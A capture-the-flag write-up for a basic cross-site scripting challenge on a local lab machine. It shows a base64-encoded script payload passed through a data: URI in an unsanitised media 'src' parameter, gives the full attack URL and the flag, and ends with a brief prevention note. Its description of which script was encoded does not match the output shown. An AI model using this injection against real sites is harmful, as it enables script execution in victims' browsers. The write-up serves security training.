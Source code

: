 # 04_XSS_basic

## Method

Go to <http://192.168.1.102/>
Inpect the blue National Security Agency logo  
It is a link containing media, the source is not protected

## Manipulation

We can insert an encoded script in the link

```

kmatjeke% echo -n '<script>alert(1)</script>' | base64
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

```

That's how you get an encoded hash value of the simple `alert("Hello World")` script.

Insert this hash into the `src` attribute

```

href="?page=media&src=PHNjcmlwdD5hbGVydCgiSGVsbG8gV29ybGQiKTwvc2NyaXB0Pg=="

```

```

data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

```

The full url is:

```

http://192.168.1.102/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

```

When we search that in the browser we get the flag
Which is:   928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

## Prevension

There is no need to get images from the url rather store the src in the actual
src attribute of the image itself. If data is needed from the DB request backend
on page load through a post request.
